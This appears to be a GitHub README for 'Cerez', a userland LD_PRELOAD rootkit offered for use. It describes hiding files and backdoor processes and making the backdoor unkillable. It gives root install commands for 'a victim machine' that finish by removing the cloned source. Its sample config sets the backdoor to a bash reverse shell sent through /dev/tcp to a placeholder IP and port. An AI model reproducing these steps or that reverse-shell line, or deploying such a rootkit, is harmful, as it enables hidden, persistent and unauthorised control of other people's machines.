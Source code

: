 <h1 align="center">
  <img src="assets/showcase.png"/>  
  <br>
  <br>
  Cerez 😈 A simple userland LD_PRELOAD rootkit
</h1>

Cerez is a configurable userland `LD_PRELOAD` rootkit, by installing it 
into `/etc/ld.so.preload`, you can preload it before every binary.
It can protect/hide your backdoor as well other files you want 
hidden. It does so by overwriting syscalls and functions like `open`, `unlinkat` etc.

## Features
- ✔ Hides files in the file system 
- ✔ Hides your backdoor in the process list 
- ❌ Hides connections in the network list
- ✔ Makes your backdoor unkillable 
- ✔ Makes files unreadable 
- ✔ Makes files unwriteable 

## Install 
> [!Warning]
> Don't forget to edit `cerez.cfg` before install 

### You will need to install `build-essential` and `libconfig` to compile!
You can install it with `apt` on debian systems:
```bash
apt update && apt install build-essential libconfig-dev
```
To install the rootkit on a victim machine run the following
as **ROOT**:
```bash
git clone https://github.com/ngn13/cerez.git && cd cerez
make && make install
cd .. && rm -rf cerez
```

## Config `(/etc/cerez.cfg)`
Configuration is (really) simple, in the `backdoor` section,
leave your backdoor/malicious command, this will be run by the rootkit everytime a program starts (if its not already running).
Your backdoor will be hidden in the process list. It will 
be also unkillable.

In the `hidden` section, specify full paths for all the files that you want hidden.
```
backdoor = "bash -c 'bash -i >& /dev/tcp/<ip>/1234 0>&1'"
hidden = (
  { path = "/etc/cerez.cfg" },
  { path = "/etc/ld.so.preload" },
  { path = "/path/to/your/super/secret/file" }
);
```

## Resources
To learn more about `LD_PRELOAD` rootkits, I highly recommend you read [this
article](https://compilepeace.medium.com/memory-malware-part-0x2-writing-userland-rootkits-via-ld-preload-30121c8343d5).
I also left some comments in the [loader.c](rootkit/loader.c) so you can go ahead and read it.
You can also create an issue/PR if you are interested.
